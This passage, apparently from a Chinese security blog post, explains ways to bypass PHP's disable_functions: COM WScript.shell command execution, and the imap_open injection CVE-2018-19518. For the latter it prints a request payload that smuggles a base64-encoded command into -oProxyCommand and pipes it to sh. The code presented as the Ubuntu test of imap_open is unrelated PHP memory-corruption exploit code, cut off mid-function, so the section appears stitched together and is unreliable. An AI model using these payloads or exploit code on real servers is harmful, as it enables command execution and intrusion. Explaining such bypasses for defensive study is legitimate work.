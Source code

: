 *   extension=php_com_dotnet.dll
    
*   php>5.4
    

此时 com 组件开启，我们能够在 phpinfo 中看到：

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LdjR8YWdGpLyQtyRR8duCo1hNCCnx1PWOA1EhGTdicEiclcrHIIY70iaIYe0iayt6HStUr5vZbgKeBzBg/640?wx_fmt=png)

要知道原理还是直接从 exp 看起：

![](https://mmbiz.qpic.cn/mmbiz_png/3RhuVysG9LdjR8YWdGpLyQtyRR8duCo1LVqeGxibQGxZyG79WDVLGzklcDR1p1GfBxYMXGcQJnxiciapke037gPGg/640?wx_fmt=png)

首先，以`new COM('WScript.shell')`来生成一个 com 对象，里面的参数也可以为`Shell.Application`（笔者的 win10 下测试失败）。

然后这个 com 对象中存在着 exec 可以用来执行命令，而后续的方法则是将命令输出，该方式的利用还是较为简单的，就不多讲了。

### imap_open

该 bypass 方式为 CVE-2018-19518

#### 原理

imap 扩展用于在 PHP 中执行邮件收发操作，而 imap_open 是一个 imap 扩展的函数，在使用时通常以如下形式：

```
hostname=x+-oProxyCommand%3decho%09bHM%2BdGVzdAo%3D|base64%09-d|sh}&username=111&password=222
//ls>test
```

那么该函数在调用时会调用 rsh 来连接远程 shell，而在 debian/ubuntu 中默认使用 ssh 来代替 rsh 的功能，也即是说在这俩系统中调用的实际上是 ssh，而 ssh 中可以通过`-oProxyCommand=`来调用命令，该选项可以使得我们在连接服务器之前先执行命令，并且需要注意到的是此时并不是 php 解释器在执行该系统命令，其以一个独立的进程去执行了该命令，因此我们也就成功的 bypass disable function 了。

那么我们可以先在 ubuntu 上试验一下：

```
<?php
error_reporting(0);
$a = str_repeat("T", 120 * 1024 * 1024);
function i2s(&$a, $p, $i, $x = 8) {
    for($j = 0;$j < $x;$j++) {
        $a[$p + $j] = chr($i & 0xff);
        $i >>= 8;
    }
}

function s2i($s) {
    $result = 0;
    for ($x = 0;$x < strlen($s);$x++) {
        $result <<= 8;
        $result |= ord($s[$x]);
    }
    return $result;
}

function leak(&$a, $address) {
    global $s;
    i2s($a, 0x00, $address - 0x10);
    return strlen($s -> current());
}

function getPHPChunk($maps) {
    $pattern = '/([0-9a-f]+\-[0-9a-f]+) rw\-p 00000000 00:00 0 /';
    preg_match_all($pattern, $maps, $match);
    foreach ($match[1] as $value) {
        list($start, $end) = explode("-", $value);
        if (($length = s2i(hex2bin($end)) - s2i(hex2bin($start))) >= 0x200000 && $length <= 0x300000) {
```